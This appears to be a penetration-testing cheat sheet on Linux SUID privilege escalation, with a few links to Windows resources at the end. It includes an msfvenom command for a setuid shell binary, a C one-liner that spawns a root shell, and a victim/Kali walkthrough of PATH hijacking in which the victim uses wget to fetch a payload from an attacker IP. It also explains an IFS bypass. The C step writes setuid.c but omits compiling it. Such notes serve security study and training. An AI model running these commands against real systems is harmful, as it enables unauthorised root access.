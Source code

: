 #### SUID Privilege Escalation

Note: `setuid` bit simply allows a script to set the `uid`. The script still needs to call `setuid()` or `setreuid()` to run in the the real uid or effective uid respectively. Without calling `setuid()` or `setreuid()`, the script will still run as the user who invoked the script: https://stackoverflow.com/a/20687988/4908573

Ensure to use "PrependSetuid=true" when generating a binary that is going to be directly used in SUID privilege escalation:
```sh
msfvenom -p linux/x86/exec cmd=/bin/bash PrependSetuid=true -f elf -o shell
```

Resources:
* https://twitter.com/mubix/status/2049242113777664
* http://linux4dummy.blogspot.sg/2012/05/creating-basic-backdoor-for-linux.html

Or instead of using an "exec" binary to give you a shell, manually setuid in C, compile, run:
```sh
echo -e '#include <stdio.h>\n#include <sys/types.h>\n#include <unistd.h>\n\nint main(void){\n\tsetuid(0);\n\tsetgid(0);\n\tsystem("/bin/bash");\n}' > setuid.c
sudo chown root:root /tmp/setuid
sudo chmod 4755 /tmp/setuid
/tmp/setuid
```

##### Simple PATH SUID Privilege Escalation
```
# On Victim
bob@sufferance:~$ ls -l /usr/local/bin/uploadtosecure
-rwsr-xr-x 1 root root 6923 2008-10-07 19:38 /usr/local/bin/uploadtosecure
bob@sufferance:~$ strings /usr/local/bin/uploadtosecure
puts
system
...
Archiving files to secure server...
scp -r file/tobesecured/* 10.192.168.1.23:/var/www/html/files/

# On Kali
msfvenom -p linux/x86/exec CMD=/bin/sh -f elf -o scp

# On Victim
wget 192.168.1.23/scp -O /tmp/scp # transfer the exec binary over to Sufferance
chmod 755 /tmp/scp
export PATH=/tmp:$PATH
/usr/local/bin/uploadtosecure # it'll now call our "special" scp binary in /tmp instead
whoami
```

##### Bypass Absolute Binary Paths with IFS
If the binary being called is absolute (eg. `/usr/bin/scp`), you can export `IFS=/`. The SUID binary will now execute `usr bin scp`. Drop a `usr` binary into `/tmp` and add it to PATH.

### Windows Configuration Issues
Great Resources:
* https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_windows.html
* https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/
* And more listed in the examples below
